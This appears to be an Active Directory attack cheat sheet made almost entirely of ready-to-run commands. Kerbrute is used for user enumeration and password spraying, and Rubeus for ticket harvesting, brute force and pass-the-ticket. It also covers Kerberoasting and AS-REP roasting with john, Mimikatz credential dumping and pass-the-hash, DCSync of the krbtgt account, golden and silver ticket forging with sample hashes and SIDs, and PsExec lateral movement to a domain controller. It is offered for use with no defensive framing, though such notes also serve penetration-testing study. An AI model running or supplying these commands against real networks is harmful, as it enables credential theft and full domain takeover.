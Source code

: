   - [Kerbrute]
  - [Rubeus]
  - [Roasting]
  - [Mimikatz]
  - [Lateral Movement]

# Kerbrute

```./kerbrute_linux_amd64 userenum -d $DOMAIN -dc $DOMAIN_CONTROLLER usernames.txt```

```./kerbrute_linux_amd64 -domain $DOMAIN -users usernames.txt -passwords passwords.txt -outputfile Output_File```

# Rubeus

```Rubeus.exe harvest /interval:30```

```Rubeus.exe brute /password:$PASSWORD /noticket```

```Rubeus.exe asktgt /domain:$DOMAIN /user:$DOMAIN_USER /rc4:$NTLM_HASH /ptt```

# Roasting

```Rubeus.exe kerberoast/asreproast```

```john hash.txt```

# Mimikatz
https://adsecurity.org/?page_id=1821

#### Turn an NTLM into a TGT:
```
mimikatz#> 
privilege::debug
sekurlsa::logonpasswords
sekurlsa::pth /user:jeff_admin /domain:corp.com /ntlm:e2b475c11da2a0748290d87aa966c327 /run:PowerShell.exe
```

```
Klist
Net use //dc1
Klist
```

PSEXEC to DC - 
```.\PsExec.exe \\dc01 cmd.exe```

#### DCSync Attack:
```lsadump::dcsync /user:Administrator```
```lsadump::dcsync /user:domain\krbtgt```


#### Golden:
Jump to DC to dump krbtgt hash:

```psexec.exe \\dc01 cmd.exe```

```
Privilege::debug
lsadump::lsa /patch
```

Now can create a Golden Ticket:
```
Kerberos::purge
kerberos::golden /user:fakeuser /domain:corp.com /sid:S-1-5-21-1602875587-
2787523311-2599479668 /krbtgt:75b60230a2394a812000dbfad8415965 /ptt
```

```
misc::cmd
psexec.exe \\dc01 cmd.exe
```

#### Silver:

Get domain SID  - ```Whoami /user```

```
kerberos::list
mimikatz # kerberos::golden /user:offsec /domain:corp.com /sid:S-1-5-21-1602875587- 2787523311-2599479668 /target:CorpWebServer.corp.com /service:HTTP /rc4:E2B475C11DA2A0748290D87AA966C327 /ptt
```

#### MAINTENANCE
```
mimikatz # kerberos::purge
Ticket(s) purge for current session is OK
mimikatz # kerberos::list
```

#### Invoke Mimikatz

Invoke Mimikatz -Command '"privilege::debug" "token::elevate" "lsadump::sam"'


